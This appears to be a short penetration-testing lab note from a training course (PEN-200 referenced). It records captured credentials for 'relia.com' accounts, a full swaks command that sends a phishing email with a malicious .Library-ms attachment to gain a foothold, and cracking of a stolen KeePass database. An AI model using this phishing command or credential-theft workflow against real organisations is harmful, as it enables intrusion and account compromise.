 ### ++ Approach ++
#### Credentials
	* dmzadmin:SlimGodhoodMope
	* jim@relia.com:Castello1!

#### Services
	-

### ++ Vulnerabilities ++

#### Vuln 1: Phishing worked for user jim ++
	* Sending a phising mail to jim user resulted in foothold in server

### ++ System Interaction ++
#### Foothold  
	* Phishing mail to jim@relia.com got us inside the server with user level
	* Command to reproduce:
		sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.246.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

		To replicate the phising attack refer to PEN-200 content, module 23.3.2

#### Privilege Escalation 
	* -

#### Attack chain
	* -
	
#### Post-exploitation 
	* Get C:\Users\jim\Documents\Database.kdbx and crack it (password mercedes1), here we found jim an dmzadmin credentials